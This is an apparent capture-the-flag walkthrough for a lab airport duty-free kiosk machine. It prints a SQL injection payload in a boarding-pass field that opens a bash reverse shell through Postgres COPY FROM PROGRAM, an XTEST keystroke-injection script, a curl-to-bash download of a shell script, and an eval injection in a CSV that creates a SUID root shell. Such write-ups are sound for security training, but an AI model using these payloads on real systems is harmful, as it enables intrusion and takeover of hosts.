**TL;DR.** The self-checkout scans a Bar Coded Boarding Pass. The airline-use field at the end of the pass is dropped straight into a Postgres `INSERT`, so it's injectable. The DB role holds `pg_execute_server_program`, which is enough for `COPY ... TO PROGRAM` and a shell as `postgres`. From there, the kiosk user is already logged into a graphical session, so XTEST keystrokes open an `xterm` as `dutyfree-kiosk`. That user's group owns a duty-rate CSV that a root `systemd` path unit feeds into a script that `eval`s the first field — command injection to root.

## User Flag
- Recon:
    - 
- We see that the web servers are open, add the redirection to `/etc/hosts` and visit

    ```bash
    echo '10.129.55.9 airsnacks.htb' | sudo tee -a /etc/hosts
    ```

    - 
- Opening burp and checking the requests, we see the cookie is transferred everytime, and it seems like a jwt token
    - 
- but its nothing useful
    - 
      <span class="caption">Decoding the session cookie (a JWT) shows it only carries the cart, an item `BER-PBR-4` and a `cart_id`, so there's nothing in it worth tampering with.</span>
- If we try to play around with the /verify endpoint, via POSTing directly to it, we get this
    - 
- So maybe we can craft a valid BCBP? (also tried enumerating the directories but didnt find anything at any layers)
- 
- lets try, because we see the body it sends to /verify:
    - 
- There's an online BCBP generator https://www.dynamsoft.com/codepool/demos/boarding-pass-generator/, if we try this and copy the payload when following the above mentioned format in the repeater:
    - 
- And i also found out without the security data it also works
    - 
- Maybe the content don't even matter => Can we inject stuff in here?
- Let's try some error based injections
    - SQLi:
        - 
          <span class="caption">PostgreSQL's `COPY … TO/FROM PROGRAM` runs a shell command for superusers or any role with `pg_execute_server_program`. That's the bridge from SQL injection to command execution on the database host.</span>
        - This might be useful, lets combine the BCBP generator and this SQLi
        - 
        - Simple solution, just change the 88> to 89>
        - But it breaks our input cause its too long, so we just use a shorter one
        - > {"raw":"M1TEST/PASSENGER      EABC123 LHRJFKBA 0123A299Y012A0001A187>60B0WW6299BBA 03125');CREATE TEMP TABLE rev(line text);COPY rev FROM PROGRAM 'bash -c \"bash -i >& /dev/tcp/10.10.16.245/4444 0>&1\"';--"}
        - 
- We have our target to move to
    - 
- lets first check out `ps -ef --forest | less -S`
    - 
- For `dutyfree-kiosk`, there seems a lot of firefox processes, but i think ive been thinking it too hard
- The lines that actually matter, once you look past the firefox noise, are the graphical session this user has running:

```
dutyfre+  1723  1508  tty7   /bin/sh /usr/bin/startx -- vt7 -nolisten tcp
dutyfre+  1752  1723  tty7   xinit /home/dutyfree-kiosk/.xinitrc -- /usr/bin/X :0 vt7 -nolisten tcp -auth /tmp/serverauth.nxbx6RjAMs
dutyfre+  1763  1752  tty7   /usr/bin/openbox --startup /usr/lib/x86_64-linux-gnu/openbox-autostart OPENBOX
dutyfre+  1766  1763  tty7   /snap/firefox/8803/usr/lib/firefox/firefox --kiosk https://airsnacks.htb
```
- `psql -U postgres -c '\l'` we can first list the dbs
    - 
    - 
      <span class="caption">`\dt` on the `airsnacks` database lists seven tables, all owned by `airsnacks_app`. `store_config`, `duty_rate` and `bp_scan_audit` looked the most interesting.</span>
- Maybe `store_config` is useful?
- However after enumerating the db nothing comes up useful.
- Relooking at the running processes:
    - `dutyfre+    1767    1756  0 01:11 tty7     00:00:00 /usr/bin/openbox --startup /usr/lib/x86_64-linux-gnu/openbox-autostart OPENBOX
`
    - it seems this dutyfree kiosk user has OPENBOX running, we can try looking at its config file at `/etc/xdg/openbox/rc.xml`
    - We can try to sending the shortcut through XTEST opened an `xterm` owned by `dutyfree-kiosk`: (this is essential because we need to first open an xterm)
```python
from Xlib import X, XK, display
from Xlib.ext import xtest
import time

d = display.Display(":0")

def key(name, down):
    code = d.keysym_to_keycode(XK.string_to_keysym(name))
    xtest.fake_input(d, X.KeyPress if down else X.KeyRelease, code)

key("Control_L", True)
key("Alt_L", True)
key("t", True)
key("t", False)
key("Alt_L", False)
key("Control_L", False)
d.sync()
time.sleep(1)
```
-  it works!, let's change the script to run a reverse shell:
```python
echo 'from Xlib import X, XK, display
from Xlib.ext import xtest
import time

d = display.Display(":0")
names = {" ": "space", ":": "colon", "/": "slash",
         ".": "period", "|": "bar"}

def tap(char):
    sym = XK.string_to_keysym(names.get(char, char))
    code = d.keysym_to_keycode(sym)
    if not code:
        raise ValueError(f"No keycode for {char!r}")
    shifted = d.keycode_to_keysym(code, 0) != sym
    shift = d.keysym_to_keycode(XK.string_to_keysym("Shift_L"))
    if shifted:
        xtest.fake_input(d, X.KeyPress, shift)
    xtest.fake_input(d, X.KeyPress, code)
    xtest.fake_input(d, X.KeyRelease, code)
    if shifted:
        xtest.fake_input(d, X.KeyRelease, shift)
    d.sync()
    time.sleep(0.03)

for char in "bash -c \"bash -i >& /dev/tcp/10.10.16.159/4445 0>&1\"":
    tap(char)
tap("Return")' > pwn.py
```
- however, it says "ValueError: No keycode for '-'", so we need to invoke a shell maybe?
- Thus what i did is in /tmp, 
    1. i added a shell.sh with the contents of `bash -i >& /dev/tcp/10.10.16.159/4445 0>&1`
    2. started a python server using `python3 -m http.server 8000`
    3. started a nc listener on 4445
    4. ran the script on the target, with the last lines as `for char in "curl http://10.10.16.159:8000/shell.sh|bash"...`
- Thus the flow is as follows: (dutyfree-kiosk) curl the python server -> get the .sh and pipe to bash -> runs this .sh and connects our nc listener
- 

### Root Flag
- See that `id` we are of a group
    - 
- 
  <span class="caption">Searching for anything owned by the `pos-ops` group turns up `/opt/vrs/data` and `duty-rates.csv`, the group-writable rate file that the root service reads later.</span>
- Let's check these files we have access to
    - 
- Files itself is useless, but we see that a root app runs/calls this file, so if we can replace this file with a handcrafted script then we might just PE
    - 
- We see 2 files interesting, lets see the code for both:
- 
```shell
#!/bin/bash
set -euo pipefail

RATES="/opt/vrs/data/duty-rates.csv"

[ -s "$RATES" ] || exit 0

# Validate CSV
lineno=0
while IFS=, read -r tax_class duty_pct vat_pct; do
    (( ++lineno ))

    if [[ -z "$tax_class" || -z "$duty_pct" || -z "$vat_pct" ]]; then
        echo "apply-duty-rates: line $lineno: missing field" >&2
        exit 1
    fi

    if ! [[ "$duty_pct" =~ ^[0-9]+$ && "$vat_pct" =~ ^[0-9]+$ ]]; then
        echo "apply-duty-rates: line $lineno: rate must be numeric" >&2
        exit 1
    fi

    eval "${tax_class}=${duty_pct}"

done < "$RATES"

for req in SPIRITS WINE BEER SNACKS CONFECTIONERY; do
    if [[ -z "${!req:-}" ]]; then
        echo "apply-duty-rates: required category ${req} not in file" >&2
        exit 1
    fi
done

# Replace table
psql -v ON_ERROR_STOP=1 -qc \
    "DELETE FROM duty_rate; COPY duty_rate FROM PROGRAM 'cat $RATES' WITH (FORMAT csv);"

# Refresh checkout
systemctl restart airsnacksdf
```
- If we take look carefully here:
    - 
    - We can see that this part turns `SPIRITS,45,20` into the assignment `SPIRITS=45`, however, look at the `eval` and the rate check! it does not check tax_class at all!, thus in the first {tax_class} part, if we inject `x$(cp /bin/bash /tmp/rootbash;chmod u+s /tmp/rootbash)` this as {tax_class}, bash expands this and runs this for us
    - What it does is it makes our own copy of bash with `chmod u+s`, which sets the suid bit, thus anyone runs this as root. 
    - Also, if we see the `.path` unit from earlier, we can see `systemd` watches it in real time, so whenever we make an adjustment to the file, it immediately runs
- Thus, we can first overwrite the file:
```bash
cat > /opt/vrs/data/duty-rates.csv << 'EOF'
x$(cp /bin/bash /tmp/rootbash;chmod u+s /tmp/rootbash),1,1
SPIRITS,45,20
WINE,25,20
BEER,25,20
SNACKS,20,20
CONFECTIONERY,20,20
EOF
```
(the contents here actually ddo not matter cause even if it aborts our command already ran)
- Then, `/tmp/rootbash -p` starts bash with the bit preserved, so we are root.

